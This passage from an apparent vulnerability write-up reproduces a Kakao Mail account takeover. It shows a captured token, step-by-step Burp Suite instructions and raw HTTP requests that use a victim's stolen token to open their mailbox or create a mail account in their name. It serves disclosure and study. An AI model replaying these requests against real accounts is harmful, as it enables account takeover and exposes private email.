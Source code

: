 This was an example response:

```json
{"code":0,"token":"5e09081b0cce35288422a0b6589ef860","expires":1700735745,"verifyToken":null}
```

With the newly gathered token we could access a victim's Kakao Mail account with Burp. Here's a way for you to reproduce it:

1. Launch Burp's browser: go to the `Proxy > Intercept` tab, click `Open browser` and clear the browser's cache.
2. Go to the `Repeater` tab and create a new `HTTP` request (click on the `+` button).
3. Paste in the following (adapt the `Ka-Tgt` header accordingly):
```
GET / HTTP/2
Host: talk.mail.kakao.com
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 11; sdk_gphone_arm64 Build/RSR1.210722.013.A6; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/91.0.4472.114 Mobile Safari/537.36;KAKAOTALK 2610380
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Km-Viewer-Ver: 1
Kakaotalk-Agent: os=android;osver=30;appver=10.4.3;lang=en;dtype=1;idiom=phone;device=SDK_GPHONE_ARM64
Ka-Tgt: 5e09081b0cce35288422a0b6589ef860
X-Requested-With: com.kakao.talk
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
```
4. Click on `Send` and confirm the target details
5. Right-click in the request window, select `Request in browser > In original session` and copy the URL into Burp's browser.

As pointed out above we could also create a new Kakao Mail account on the user's behalf. Just repeat the same steps with Burp using the following HTTP request (adapt the `Authorization` header):

```
GET /kakao_mail/main?continue=https://talk.mail.kakao.com HTTP/1.1
Host: auth.kakao.com
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Linux; Android 11; sdk_gphone_arm64 Build/RSR1.210722.013.A6; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/91.0.4472.114 Mobile Safari/537.36;KAKAOTALK 2610430
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Authorization: 64f03846070b4a9ea8d8798ce14220ce00000017017793161400011gzCIqV_7kN-deea3b5dc9cddb9d8345d95438207fc0981c2de80188082d9f6a8849db8ea92e
Http_a: android/10.4.3/en
X-Requested-With: com.kakao.talk
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close
```
